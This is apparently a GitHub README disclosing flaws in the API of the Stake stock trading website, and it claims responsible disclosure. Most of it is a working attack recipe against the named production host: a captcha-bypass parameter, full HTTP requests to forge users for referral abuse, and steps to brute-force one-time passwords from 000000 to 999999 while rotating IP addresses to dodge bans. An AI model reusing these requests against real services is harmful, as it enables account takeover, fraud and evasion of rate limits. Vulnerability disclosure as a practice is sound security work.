 # StakeOver
The [Stake](https://hellostake.com/) stock trading website is accessed through a mismanaged and insecure custom API. Manipulation of requests allow an attacker to:
1) Create any number of falsified users on the website
2) Tie all of these users to referal codes during "Sign Up"
3) Bypass Captcha Prompts
4) Bruteforce Two-Factor Authentication

After finding a number of vulnerabilities on the Stake website, without any intrusive exploitation, the security team decided to personally reach out on discord. A full audit of this site would likely introduce a number of much more serious issues as I did not perform any intrusive auditing. These issues have all been brought to the attention of the Stake security team and disclosed responsibly.

## Requests
Bypassing Captcha:
Simply append the `"captcha":"captchaIgnore"` option in any request body.

Forging Users:
```
POST /api/users/createuser/ HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 355
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"marketingOptIn":true,"cvmAcceptance":null,"emailAddress":"noot@nootnoot.io",
"password":"Password12345$","captcha":"catpchaIgnore","username":"FakeUser","guestUserId":null,"regionIdentifier":"AUS","firstName":"noot","lastName":"LastName","marketingTitle":null,"campaign":null,"channel":null,"referringLink":null,"feature":null,"influencerClickId":null}
```

The user verification link will be sent to the email not the username although the website will prompt "Sending to username". This is not a problem however as 2FA can be bypassed.

Two-Factor Authentication Bruteforce:
```
POST /api/sessions/v2/createSession HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 122
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"nootnootalakazam@protonmail.com","password":"Password123$","rememberMeDays":"30","platformType":"WEB_f5K2x3"}
```
Will send a one time password to the email associated with the username. 
```
POST /api/sessions/v2/createSession HTTP/2
Host: global-prd-api.hellostake.com
Content-Length: 122
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
X-Server-Select: AUS
Sec-Ch-Ua-Platform: "Linux"
Origin: https://trading.hellostake.com/
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://trading.hellostake.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

{"username":"noot@nootnoot.io","password":"Password123$","rememberMeDays":"30","platformType":"WEB_f5K2x3","otp":"772335"}
```
Will attempt to verify the OTP. Inctiment the OTP from 000000-999999 until one works. Every 10,000 requests (aprox) the IP is banned and should be changed. When a request status 200 is identified, the user has logged in suessfully.

[@nootsploit](https://twitter.com/nootsploit)

https://dragoneyeintel.com
